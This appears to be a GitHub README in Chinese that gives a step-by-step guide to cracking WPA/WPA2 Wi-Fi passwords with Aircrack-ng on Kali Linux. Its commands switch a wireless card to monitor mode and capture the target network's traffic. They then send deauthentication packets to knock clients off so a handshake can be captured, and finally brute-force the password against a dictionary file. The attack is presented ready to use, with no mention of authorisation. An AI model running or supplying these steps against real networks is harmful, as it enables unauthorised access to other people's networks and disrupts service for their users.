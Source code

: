 # Crack wifi Password
使用Aircrack-ng暴力破解WPA/WPA2加密wifi密碼。
* 暴力破解
* 字典檔

## **環境&工具**
* 系統：Kali Linux
* 硬體：一台有無線網卡的電腦
* 一個字典檔

## **破解流程**
* step1：查看無線網卡名稱
  ```shell
  ifconfig
  ```
* step2：將網卡設定為monitor模式
  ```shell
  airmon-ng start 網卡名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/2.png)
* step3：搜尋目前位置所有 AP 站台
  ```shell
  airodump-ng 網卡監聽後的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/3.png)
* step4：使用`airodump-ng`開始收集封包，並將封包存在指定的目錄下
  ```shell
  airodump-ng -c 頻道 --bssid 目標AP的bssid -w 檔名 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/4.png)
* step5：使用`aireplay-ng`傳送假信號讓AP與Client之間進行互動，進而抓取中間的封包(需另外開視窗動作，收集封包不能斷)
  ```shell
  aireplay-ng -0 發送阻斷封包的數量 -a 目標AP的bssid -c 特定連線主機的bssid 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/5.png)
* step6：收集到 handshake
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/6.png)
* step7：使用`aircrack-ng`進行解密，(必須要擁有密碼字典檔)
  ```shell
  aircrack-ng -b 目標AP的bssid -w 密碼字典檔 使用airodump-ng收集到的arp封包
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-1.png)
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-2.png)
  
## **References**
* https://shazi.info/%E4%BD%BF%E7%94%A8-aircrack-ng-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-wpawpa2-%E5%8A%A0%E5%AF%86-wifi-%E5%AF%86%E7%A2%BC/
* https://zh.wikipedia.org/zh-tw/Aircrack-NG
